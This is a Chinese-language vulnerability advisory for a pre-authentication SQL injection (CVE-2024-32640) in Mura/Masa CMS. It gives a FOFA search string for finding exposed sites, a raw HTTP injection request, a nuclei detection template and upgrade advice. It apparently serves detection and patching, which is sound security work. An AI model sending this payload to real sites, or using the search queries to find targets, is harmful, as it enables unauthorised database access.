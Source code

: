 **漏洞名称**

Mura-CMS-processAsyncObject存在SQL注入漏洞

**漏洞影响**

Mura CMS版本不详

**漏洞描述**

Mura CMS 是一个功能全面、灵活且用户友好的内容管理系统。2024年5月8日，互联网上披露其存在CVE-2024-32640 Mura CMS processAsyncObject SQL注入漏洞，攻击者可构造恶意请求获取数据库中的敏感信息。

**FOFA搜索语句**

```
"Generator: Masa CMS"
```

**漏洞复现**

```yaml
POST /index.cfm/_api/json/v1/default/?method=processAsyncObject HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

object=displayregion&contenthistid=x\'&previewid=1
```

**nuclei poc**

```yaml

id: CVE-2024-32640

info:
  name: Mura/Masa CMS - SQL Injection
  author: iamnoooob,rootxharsh,pdresearch
  severity: critical
  description: |
    The Mura/Masa CMS is vulnerable to SQL Injection.
  reference:
    - https://blog.projectdiscovery.io/mura-masa-cms-pre-auth-sql-injection/
    - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-32640
  impact: |
    Successful exploitation could lead to unauthorized access to sensitive data.
  remediation: |
    Apply the vendor-supplied patch or update to a secure version.
  metadata:
    verified: true
    max-request: 3
    vendor: masacms
    product: masacms
    shodan-query: 'Generator: Masa CMS'
  tags: cve,cve2022,sqli,cms,masa,masacms

http:
  - raw:
      - |
        POST /index.cfm/_api/json/v1/default/?method=processAsyncObject HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded

        object=displayregion&contenthistid=x\'&previewid=1

    matchers:
      - type: dsl
        dsl:
          - 'status_code == 500'
          - 'contains(header, "application/json")'
          - 'contains_all(body, "Unhandled Exception")'
          - 'contains_all(header,"cfid","cftoken")'
        condition: and
```

**修复建议**

升级到 7.4.6、7.3.13 、7.2.8版本。